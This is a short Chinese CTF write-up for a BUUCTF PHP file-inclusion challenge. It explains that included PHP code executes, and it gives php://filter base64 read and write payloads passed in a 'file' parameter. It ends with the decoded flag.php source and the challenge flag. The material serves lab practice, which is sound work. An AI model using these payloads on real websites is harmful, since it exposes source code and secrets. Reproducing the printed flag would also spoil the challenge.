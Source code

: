 ```yaml
---
title: 01新生赛Include1
description: 
published: 1
date: 2023-05-29T04:17:21.523Z
tags: 
editor: markdown
dateCreated: 2023-05-22T10:38:53.512Z
---
```


<center>新生赛Include1</center>

[toc]







## 新生赛Include1

> 赛题 [buuctf](https://buuoj.cn/challenges#[ACTF2020%20%E6%96%B0%E7%94%9F%E8%B5%9B]Include)



### 1.讲解

> 主要看url可以看出文件包含相关
>
> 因为文件包含有一个特性，就是对于被包含的文件，`代码会直接执行`，不会显示，而非代码会直接显示出来，所以，对于这样的情况，我们可以把文件编码为不可以被执行的内容，就可以直接显示出来了，



### 2. 伪协议

> [php伪协议](https://blog.csdn.net/qq_51295677/article/details/123462929) 遇到文件包含需要读取源码可以使用php://filter协议，格式如下 

```shell
读：php://filter/resource=文件名
    # base64 加密读
php://filter/read=convert.base64-encode/resource=文件名
 
写：php://filter/resource=文件名&txt=文件内容
 
php://filter/write=convert.base64-encode/resource=文件名&txt=文件内容
```



### 3.使用

> base64[base64](https://blog.csdn.net/wo541075754/article/details/81734770)在线编码  [在线base64](https://base64.us/)

```shell
# flag的源码
?file=php://filter/read=convert.base64-encode/resource=flag.php
?file=php://filter/read=convert.base64-encode/resource=index.php
```

> 通过base64解码出来就可以看到我们网址的源码了

```js
<?php
echo "Can you find out the flag?";
//flag{95d98028-64e5-4be3-8255-80285f0ba5dc}
```





### top 看到的网址 后面会整理到环境搭建篇

```shell
ctfer : https://book.nu1l.com/
```



